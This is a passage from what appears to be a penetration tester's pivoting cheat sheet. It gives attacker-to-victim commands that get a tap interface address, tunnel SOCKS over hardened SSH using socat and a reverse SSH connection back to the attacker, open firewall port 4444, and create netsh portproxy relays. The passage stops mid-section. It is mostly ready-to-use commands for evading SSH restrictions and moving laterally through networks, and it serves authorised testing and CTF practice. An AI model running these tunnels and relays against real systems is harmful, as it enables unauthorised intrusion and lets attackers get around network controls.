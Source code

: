Get an IP address for tap on Attacker:

```
snovvcrash@attacker:~$ sudo dhclient -v tap0
```



### SOCKS over Hardened SSH

- [[YouTube] HTB Business CTF 2022: Dirty Money - The Day Before](https://youtu.be/PexfXIrgocA?t=5528)

With `AllowTcpForwarding` set to `no` it's also possible to establish a SOCKS connection through active SSH connection:

```
snovvcrash@attacker:~$ cat tunnel.sh
ssh alice@victim "./socat TCP-LISTEN:2222,reuseaddr STDIO"
snovvcrash@attacker:~$ socat TCP:localhost:22 EXEC:./tunnel.sh
alive@victim:~$ ssh -R 1080 -p 2222 snovvcrash@attacker
```




## netsh



### Rules

Allow inbound traffic flow on port 4444/TCP:

```
Cmd > netsh advfirewall firewall add rule name="Allow 4444" dir=in action=allow protocol=TCP localport=4444
Cmd > netsh advfirewall firewall delete rule name="Allow 4444" protocol=TCP localport=4444
```



### Relay

Add a relay between two machines (need to be local admin).

Make any traffic hitting port **8443** on **0.0.0.0** to be redirected to **10.10.13.37** on port **443**:

```
Cmd > netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8443 connectaddress=10.10.13.37 connectport=443 protocol=tcp
```

Show active relays:

```
Cmd > netsh interface portproxy show v4tov4
```

Remove a relay:
